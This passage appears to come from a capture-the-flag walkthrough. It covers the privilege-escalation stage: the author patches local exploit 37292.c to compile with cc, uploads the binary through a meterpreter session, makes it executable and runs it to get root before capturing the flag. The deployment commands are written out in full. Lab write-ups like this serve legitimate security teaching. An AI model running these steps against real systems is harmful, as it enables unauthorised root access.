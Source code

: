 I saw an error message stated that gcc compiler is not currently installed. So to solve this i find alternative program to gcc and found cc as alternative of it.

By making change into the original file 37292.c on line 143, i replaced gcc to cc and compiled it again with cc.

> cc 37292.c -o ayam

Upload it with meterpreter

> upload /root/ayam

> shell

> chmod 777 ayam

> ./ayam

<img src="Images/26.JPG" width="500px">

Booom!!! i got root access succesfully

Now lets finish this task by capturing flag in the root /directory

<img src="Images/27.JPG" width="500px">
